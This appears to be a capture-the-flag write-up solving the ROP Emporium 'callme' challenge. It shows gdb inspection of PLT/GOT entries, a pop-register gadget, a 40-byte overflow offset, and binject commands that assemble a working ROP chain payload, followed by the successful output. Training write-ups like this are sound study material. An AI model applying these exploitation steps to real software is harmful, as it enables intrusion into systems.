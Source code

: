 # callme challenge

Coming back to https://ropemporium.com/challenge/callme.html.

## Blind test

1. wget https://ropemporium.com/binary/callme.zip (*to download the challenge*)
2. unzip callme.zip (*to unzip the challenge*)
3. checksec callme (*to check for security features*)
4. rabin2 -z callme (*to check for usefull strings*)

5. gdb callme
	1. info function give use some functions:
		- pwnme (the vulnerable function from *ret2win*).
		- usefulFunction (that, at disasemblying, call all the other three functions)
		- callme_one/two/three with the @plt label

Challenge talk about "incorrect calls" to theses functions that are not supposed to be used. I wanted to ROP this function to ensure PLT to resolve related symbols, but... well, let's try the "conventional way" first. <br>
**TODO**

The conventional is to jump to the **.plt** section (with offset) to resolve thoses functions. Then, we could easily ROP to *@got.plt* to simply call thoses functions;

Still with gdb:
1. info files (to retrieve **.got.plt** section):
2. x/20i 0x00000000004006c0 (with *.plt* section start address)
3. At this point, symbols are not already resolved, but at least we can identify the address on **.plt** section to jump on for each function with related **@got.plt** addresses as:
- 0x400720 <callme_one@plt>:   jmp    *0x20091a(%rip)        # 0x601040 <callme_one@got.plt>
- 0x400740 <callme_two@plt>:   jmp    *0x20090a(%rip)        # 0x601050 <callme_two@got.plt>
- 0x4006f0 <callme_three@plt>: jmp    *0x200932(%rip)        # 0x601028 <callme_three@got.plt>

Also, thoses functions needs 3 arguments (as we can see at disasembling *usefulFunction*) loaded onto RDI, RSI and RDX registers; a ROP gadget poping stack to thoses registers would allow us to perform the call. Where is that gadget? In the *usefulGadget* maybe?
> 0x000000000040093c <+0>:&emsp;	pop    %rdi&emsp;	// for 0xdeadbeefdeadbeef <br>
> 0x000000000040093d <+1>:&emsp;    pop    %rsi&emsp; 	// for 0xcafebabecafebabe <br>
> 0x000000000040093e <+2>:&emsp;	pop    %rdx&emsp; 	// for 0xd00df00dd00df00d <br>
> 0x000000000040093f <+3>:&emsp;	ret

With that, there is litterally no needs to use **ropper**. In addition to this, the emporium statement gives us valuable information about the parameters; on x64 architecture, it shall be 128 bytes long. 
**TODO WHYYYY!?**

Let's first verify that's the **pwnme** is still 32 bytes long with the **BB** test:
> binject -ns 32 A -x BBBBBBBBBBBBBBBB > test <br>
> tgdb callme <br>
> break *(pwnme+89) // to put a breakpoint at pwnme+89, as the ret instruction <br>
> r < test

We can see that the RBP register value is 0xbbbbbbbbbbbbbbbb, great. Let's then try to reach the <callme_one@plt>:
> binject -ns 40 A -x 200740 > test <br>
> tgdb callme <br>
> break *0x400720&emsp;//the adress of \<callme_one@plt> from **.plt** section <br>
> continue

I am going to append some changes to the binject project as to:
- allow lowercases letters in case of hexadecimal flag parameter.
- new -u64 flag to append 64-bits unsigned integer (with an hypotetical 0x prefix), litte-endian is assumed and padding appended if necessary.
- new -of flag to generate output onto a file. 
- new -if flag to append content from a file generated by binject.

Changes have been push to the [repository](https://github.com/anarticho/binject).

## Testing
In order to make the work on "binject" project faster, i want to automatize some tests to be informed at changing the code. It shall be easily performed through two uniques tests as:
- for basic format flags (-s, -x, -ns, -nx) and file output (-of).
- for file flag, using (-if) and standart output, redirected to a text file to test.

## The solution

Let's coming back to the challenge. Now we have a pretty nice tool with binject, we can just create some binaries to play with. To do so:
1. Create the binary to overflow the vulnerable buffer:
> binject -of ovf.bin -ns 40 A
2. Create the binary to contain the ROP gadget and the arguments:
> binject -of arg.bin -x64 40093c -x64 deadbeefdeadbeef -x64 cafebabecafebabe -x64 d00df00dd00df00d
3. Then create binaries to jump on each callme function from **.plt**:
> binject -of cm1.bin -if arg.bin -x64 400720 <br>
> binject -of cm2.bin -if arg.bin -x64 400740 <br>
> binject -of cm3.bin -if arg.bin -x64 4006f0 <br>
4. Put it all together.
> binject -of ola.bin -if ovf.bin -if cm1.bin -if cm2.bin -if cm3.bin

In fact, i putted it all into an *.sh* script in order not to have to type each time. 

Let's goooooo:
> ./callme < bin/ola.bin <br>
> callme by ROP Emporium <br>
> x86_64 <br>
> <br>
> Hope you read the instructions... <br>
> <br>
> Thank you! <br>
> callme_one() called correctly <br>
> callme_two() called correctly <br>
> ROPE{a_placeholder_32byte_flag!} <br>
